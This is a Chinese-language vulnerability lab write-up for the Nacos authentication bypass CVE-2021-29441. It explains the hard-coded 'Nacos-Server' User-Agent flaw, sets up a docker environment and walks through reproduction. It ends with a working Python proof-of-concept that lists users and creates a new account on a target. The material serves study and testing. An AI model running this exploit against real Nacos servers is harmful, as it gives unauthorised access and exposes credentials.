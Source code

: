 # Nacos 认证绕过漏洞 CVE-2021-29441

## 漏洞描述

Nacos 是阿里巴巴推出来的一个新开源项目，是一个更易于构建云原生应用的动态服务发现、配置管理和服务管理平台。致力于帮助发现、配置和管理微服务。Nacos 提供了一组简单易用的特性集，可以快速实现动态服务发现、服务配置、服务元数据及流量管理。

该漏洞发生在nacos在进行认证授权操作时，会判断请求的user-agent是否为”Nacos-Server”，如果是的话则不进行任何认证。开发者原意是用来处理一些服务端对服务端的请求。但是由于配置的过于简单，并且将协商好的user-agent设置为Nacos-Server，直接硬编码在了代码里，导致了漏洞的出现。并且利用这个未授权漏洞，攻击者可以获取到用户名密码等敏感信息。

参考链接：

- https://github.com/advisories/GHSA-36hp-jr8h-556f

## 环境搭建

运行漏洞环境：

```
docker-compose up -d
```

环境运行后，会开放3306、8848、9848、9555端口，在本次漏洞利用中，我们只需要用到8848端口，即web访问端口。

执行漏洞验证过程时，请先访问8848端口，确认开放，某些情况下nacos服务会启动失败（无法连接数据库导致），可以重启nacos服务或者重启所有服务。

```
docker-compose restart nacos
```

## 漏洞复现

漏洞利用过程如下：

1. 修改User-Agent的值为Nacos-Server到请求包中
2. 访问`http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9`查看状态码是否为200，且内容中是否包含`pageItems`
3. 使用POST方式访问`http://target:8848/nacos/v1/auth/users?username=vulhub&password=vulhub`添加一个新用户
4. 访问`http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9`获取已有的用户列表
5. 访问`http://target:8848/nacos/`，使用添加的新用户(vulhub/vulhub)进行登录

**检测漏洞是否存在**

添加Header头后访问`http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9`可以看到返回值为200，且内容中是否包含`pageItems`。

![image-20220226230032045](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202262300141.png)

**添加新用户**

添加Header头后使用`POST`方式请求`http://target:8848/nacos/v1/auth/users?username=test&password=test`添加一个新用户，账号密码都为`test`。

![image-20220226230105927](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202262301006.png)

**使用新建的账号进行登录**

使用账号密码`test/test`登录。

![image-20220226230250829](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202262302898.png)

## 漏洞POC

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
import sys

import requests

headers = {
    "User-Agent": "Nacos-Server"
}


def check(target):
    endpoint = "/nacos/v1/auth/users?pageNo=1&pageSize=9"
    r = requests.get(target.strip("/") + endpoint, headers=headers)
    if r.status_code == 200 and "pageItems" in r.text:
        print target + " has vulnerabilities"
        return True
    print target + "has not vulnerabilities"
    return False


def add_user(target):
    add_user_endpoint = "/nacos/v1/auth/users?username=vulhub&password=vulhub"

    r = requests.post(target.strip("/") + add_user_endpoint, headers=headers)
    if r.status_code == 200 and "create user ok" in r.text:
        print "Add User Success"
        print "New User Info: vulhub/vulhub"
        print "Nacos Login Endpoint: {}/nacos/".format(target)
        exit(1)

    print "Add User Failed"


if __name__ == '__main__':
    if len(sys.argv) != 2:
        print "Please specify the target: python poc.py http://xxxxx:8848"
        exit(-1)
    if check(sys.argv[1]):
        add_user(sys.argv[1])
```

```
python poc.py http://target:8848
```

![image-20220226225534784](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202262255839.png)

